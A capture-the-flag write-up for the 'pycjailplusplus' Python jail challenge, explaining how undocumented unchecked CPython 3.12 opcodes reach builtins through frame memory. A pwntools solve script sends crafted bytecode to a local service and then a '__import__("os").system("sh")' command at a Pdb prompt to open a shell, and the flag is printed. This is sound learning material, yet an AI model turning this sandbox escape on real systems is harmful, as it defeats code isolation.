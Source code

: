 # pycjailplusplus

Author: `flocto`

Inspired by [`pycjail-returns` from AngstromCTF 2024](https://github.com/blairsec/challenges/blob/master/angstromctf/2024/misc/pycjail-returns/chall.py). Now with less builtins!

## Dev Notes

Run with any version of Python 3.12 (shouldn't matter what minor version but if you're worried stick to the Docker).

Note: This challenge will run differently depending on the system. PLEASE USE THE DOCKER TO TEST!
The attached solve.py is only one way to solve the challenge. 

## Solution

The challenge asks us to submit Python bytecode that does not map to any stored opcode in `opcode.opmap`. This means we have to use unofficial undocumented opcodes to solve the challenge.

In particular, there are optimized opcodes that are undocumented like LOAD_FAST_LOAD_FAST that perform multiple operations in one opcode. Since these are not stored in `opcode.opmap`, we can use them to solve the challenge.

Additionally, these opcodes do not have bound checking, so with `LOAD_FAST__LOAD_CONST` we can reach into `frame->localsplus` beyond the extent of the current execution frame. This allows us to immediately acquire builtins as a dictionary with the offset of 40. 

Afterwards all we do is extract breakpoint from the dictionary, load its `__call__` attribute, and call that instead. This is due to the fact that calling breakpoint directly would try to call it in the context of the current frame, which would fail due to the lack of builtins. We can bypass this by calling the `__call__` attribute directly.

Finally, we need to have an opcode at the end that causes either some failure or for the function to return. Otherwise, the execution would terminate before actually entering the `__call__`.

```python
import opcode
from pwn import remote
cod = bytes([
        # LOAD_FAST__LOAD_CONST does both in one instruction
        # LOAD_FAST 40 reaches into frame->localsplus and retrieves "builtins" which was loaded previously before the eval
        # the 255 is to prevent banned, then LOAD_CONST 0 loads "breakpoint"
        # 84, 40, 255, 0,
        86, 40, 255, 0,
        # pops both, loads builtins["breakpoint"] 
        19, 0, 255, 0,

        # LOAD __call__ attribute
        76, 1, 255, 0, 255, 0, 255, 0, 255, 0, 255, 0, 255, 0, 255, 0, 255, 0, 255, 0, 

        # CALL_PY_EXACT_ARGS works without segfaulting now because its a method call
        23, 0, 255, 0, 255, 0, 255, 0,
        
        # Error after
        255, 0,
    ])

# name = input("name? ")
name = b'__call__'
# const = input("const? ")
const = b'breakpoint'
print(cod.hex(), len(cod), name, const)

r = remote('localhost', 5000, level='error')

codeedit = bytearray(cod)
r.sendlineafter(b'code? ', codeedit.hex().encode())
r.sendlineafter(b'name? ', name)
r.sendlineafter(b'const? ', const)

r.sendlineafter(b'(Pdb) ', b'__import__("os").system("sh")')

r.interactive()
```

This drops us into a shell and we can simply cat the flag.

flag:
`gigem{1_h0p3_U_f0und_som3_un1nt3nd3ds!}`
